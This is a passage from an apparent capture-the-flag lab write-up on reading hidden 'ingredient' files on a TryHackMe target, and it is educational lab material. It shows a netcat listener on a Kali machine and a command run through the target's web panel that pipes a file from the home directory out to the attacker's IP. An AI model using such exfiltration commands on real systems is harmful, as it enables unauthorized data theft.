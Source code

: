 Here we have te first ingredient:
`Sup3rS3cretPickl3Ingred.txt`

```
cat Sup3rS3cretPickl3Ingred.txt
```

Oops the command is disabled.

![](images/pr4.png)

# First ingredient
Since we can read robots.txt in the browser we have a good change that we can do the same with Sup3rS3cretPickl3Ingred.txt. 
Go to `https://<LAB IP>.p.thmlabs.com/Sup3rS3cretPickl3Ingred.txt` to read the file.

After looking around in the file system de file for the second ingredient is found at location `/home/rick/second ingredients`

# Second ingredient
How can we read this since it is outside of the webroot. I decided to start a listener on my local kali vm and transfer the file via nc:
### On local kali vm:
```sh
nc -lvnp 4444 > secondingredient
```
In the command panel in the browser:
```
nc <KALI IP> 4444 < /home/rick/second\ ingredients
```
Now we can read the file on the kali machine.
